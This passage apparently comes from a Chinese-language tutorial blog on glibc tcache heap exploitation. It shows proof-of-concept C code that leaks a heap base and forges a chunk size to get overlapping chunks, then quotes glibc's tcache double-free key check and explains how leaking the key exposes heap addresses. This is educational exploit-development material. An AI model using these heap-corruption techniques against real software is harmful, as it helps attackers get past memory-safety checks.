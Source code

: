 ```c
    size_t* chunk2=malloc(0x10);
    size_t* heapbase=chunk2[0]-0x260; //chunk header
    chunk2[0]=heapbase;
    malloc(0x10);
    size_t* destchunk=malloc(0x10);
    printf("tcache_perthread_struct 0x%p\n",getheap());
    printf("destchunk 0x%p\n",destchunk);

}
```

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/db395e5b337f4fab8f2403c76fedc408.png)



## tcache extend
修改 chunk 的 size 然后释放并重新申请出来就可以造成堆块重叠。size 在 tcache 范围和不是负数和对齐0x10（去除field bit），然后free的参数即地址是0x10对齐的

### poc

```c
#include <stddef.h>
#include <stdlib.h>
#include <stdio.h>
int main()
{   
    size_t* chunk1=malloc(0x20);
    size_t* chunk2=malloc(0x20);
    size_t* chunk3=malloc(0x20);
    chunk1[-1]=0x90;
    free(chunk1);
    size_t* extent_chunk=malloc(0x80);
    printf("extent_chunk size %p\n",chunk1[-1]);
    printf("chunk2 size %p\n",chunk1[5]);
    printf("chunk3 size %p\n",chunk1[11]);
}
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/ed82bce0a5324f05a623fa9606011e00.png)
## tcache key
自 glibc2.29 版本起 tcache 新增了一个 key 字段，该字段位于 chunk 的 bk 字段，值为 tcache 结构体的地址，若 free() 检测到 chunk->bk == tcache 则会遍历 tcache 查找对应链表中是否有该chunk。最新版本的一些老 glibc （如新版2.27等）也引入了该防护机制


```c
	if (__glibc_unlikely (e->key == tcache))
	  {
	    tcache_entry *tmp;
	    LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
	    for (tmp = tcache->entries[tc_idx];
		 tmp;
		 tmp = tmp->next)
	      if (tmp == e)
		malloc_printerr ("free(): double free detected in tcache 2");
	    /* If we get here, it was a coincidence.  We've wasted a
	       few cycles, but don't abort.  */
	  }
```
### 泄露堆地址
由于 tcache 用的是tcache_perthread_struct chunk的 fd 字段所在地址，因此可以通过泄露 tcache key 来泄露堆地址。
```c
static __thread tcache_perthread_struct *tcache = NULL;
static __always_inline void
tcache_put (mchunkptr chunk, size_t tc_idx)
```